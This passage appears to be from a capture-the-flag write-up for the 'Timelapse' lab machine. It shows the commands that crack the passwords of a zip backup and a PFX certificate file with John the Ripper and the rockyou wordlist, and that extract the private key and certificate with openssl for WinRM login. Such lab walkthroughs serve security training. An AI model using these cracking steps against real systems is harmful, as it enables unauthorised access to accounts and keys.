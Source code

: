 ## winrm_backup.zip
![[/assets/images/timelapse2.png]]

```sh
zip2john winrm_backup.zip > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```

![[/assets/images/timelapse3.png]]
### legacyy_dev_auth.pfx
![[/assets/images/timelapse4.png]]

The output is a PFX file which contains an SSL certificate in PKCS#12 format and a private key. PFX files can be used by WinRM in order to login without a password. Let's extract them from the file.

```sh
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```
![[/assets/images/timelapse11.png]]

The output above shows that we need a different password than supremelegacy . Utilizing the *pfx2john* utility we convert the pfx file into a hash format then use John to crack the password. Using the following command we are able to successfully crack the password to the pfx file.

```sh
python3 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john

john pfx.john -w=/usr/share/wordlists/rockyou.txt
```

![[/assets/images/timelapse12.png]]

Once the password is cracked we extract the SSL certificate and private key from the pfx file using the following commands.

```sh
# extract the private key from the pfx file
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

# extract the SSL certificate from the pfx file
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

![[/assets/images/timelapse13.png]]

![[/assets/images/timelapse14.png]]









